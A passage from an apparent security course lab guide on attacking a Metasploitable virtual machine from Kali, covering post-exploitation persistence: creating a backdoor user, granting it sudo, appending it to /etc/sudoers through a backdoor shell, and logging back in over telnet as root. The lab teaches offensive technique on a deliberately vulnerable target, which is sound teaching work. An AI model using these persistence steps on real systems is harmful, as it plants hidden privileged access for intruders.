 + Try putting Kali and Metasploitable side by side and run the `reboot` command. 

You will notice that when you rebooted Metasploitable, the backdoor shell stopped working. To gain access to the machine we would have to run the exploit again which might be problematic. We need therefore to make our access persistent.

## Making our access persistent

As we saw in the Nmap scan, the victim is already running both SSH and Telnet, so the easiest way to gain persistent access is by adding an extra user to the system.


```bash
useradd ttm4175 % Add 'ttm175' as a new user
passwd ttm4175 % Set the password for the new user
usermod -aG sudo ttm4175 % Add the user to the 'admin' group, this is equivalent to being root
reboot
```

+ After running the reboot command, wait until Metasploitable has rebooted and then try to login with telnet: 
```bash
apt-get install telnet
telnet <IP_address_victim_machine>
```

+ After logging in, test that you still can get root access:

```bash
$ sudo su % Switch to the root user
# whoami
```

The last command should print "root" if successful.

:tip:

If you get an error saying that "ttm4175 is not in the sudoers group", then you will have to manually add it. To do this, re-open the backdoor shell by running the expolit again, and type the following command: `echo "ttm4175 ALL=(ALL) ALL" >> /etc/sudoers` . Now try to connect to Metasploitable with Telnet and check if you can get root access.
